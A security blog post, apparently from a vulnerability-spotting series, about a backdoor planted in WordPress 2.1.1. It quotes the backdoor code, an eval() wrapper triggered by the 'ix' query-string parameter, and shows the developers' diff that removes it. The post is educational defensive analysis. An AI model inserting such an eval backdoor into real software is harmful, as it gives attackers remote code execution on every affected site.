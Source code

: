 ```yaml
---
layout: post
title: Impact - Command Injection
tags:
- Code Snippet
- PHP
- Privilege Escalation
- Solution
- Wordpress
status: publish
type: post
published: true
meta:
  aktt_notify_twitter: 'yes'
  _aktt_hash_meta: ! '#code #development'
  _edit_last: '2'
  aktt_tweeted: '1'
  _sexybookmarks_shortUrl: http://bit.ly/bvG37F
  _sexybookmarks_permaHash: 705d5cdc2aa46c7aebd4f8b0e67e70ba
---
```

## Details
__Affected Software:__ WordPress

__Fixed in Version:__  2.1.1

__Issue Type:__ Command Injection

Original Code: <a title="Impact" href="http://spotthevuln.com/2010/01/impact/" target="_blank">Found Here</a>
## Description
This example was actually a backdoor someone had planted in WordPress 2.1.1. Apparently, someone either broke into the wordpress server or hacked a wordpress dev account and inserted this back door. The back door was simple, create a function which simply calls eval on a arguments passed to it. The attacker named this function "comment_text_phpfilter()" and the contents of the function are provided below:
<blockquote>function comment_text_phpfilter($filterdata) {
eval($filterdata);
}</blockquote>
Several lines later, the attacker planted a mechanism to call the backdoor. In this case, the attacker checked for the presense of the "ix" parameter being passed via the querystring. If the "ix" querystring parameter was present, the value assigned to "ix" would be passed to "comment_text_phpfilter()", which would pass the attacker supplied value to eval().
<blockquote>if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }</blockquote>
## Developers Solution
[cce lang="diff"]

function comment_author_rss() {
echo get_comment_author_rss();
}

-function comment_text_phpfilter($filterdata) {
-eval($filterdata);
-}

function comment_text_rss() {
$comment_text = get_comment_text();
$comment_text = apply_filters('comment_text_rss', $comment_text);
echo $comment_text;
}

function comments_rss_link($link_text = 'Comments RSS', $commentsrssfilename = '') {
$url = comments_rss($commentsrssfilename);
echo "&lt;a href='$url'&gt;$link_text&lt;/a&gt;";
}

...

function get_category_rss_link($echo = false, $cat_ID, $category_nicename) {
$permalink_structure = get_option('permalink_structure');

if ( '' == $permalink_structure ) {
$link = get_option('home') . '?feed=rss2&amp;amp;cat=' . $cat_ID;
} else {
$link = get_category_link($cat_ID);
$link = $link . "feed/";
}

$link = apply_filters('category_feed_link', $link);

if ( $echo )
echo $link;
return $link;
}

-if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }

function get_the_category_rss($type = 'rss') {
$categories = get_the_category();
$the_list = '';
foreach ( (array) $categories as $category ) {
$category-&gt;cat_name = convert_chars($category-&gt;cat_name);
if ( 'rdf' == $type )
$the_list .= "\n\t\t&lt;dc:subject&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/dc:subject&gt;\n";
else
$the_list .= "\n\t\t&lt;category&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/category&gt;\n";
}
return apply_filters('the_category_rss', $the_list, $type);
}

[/cce]
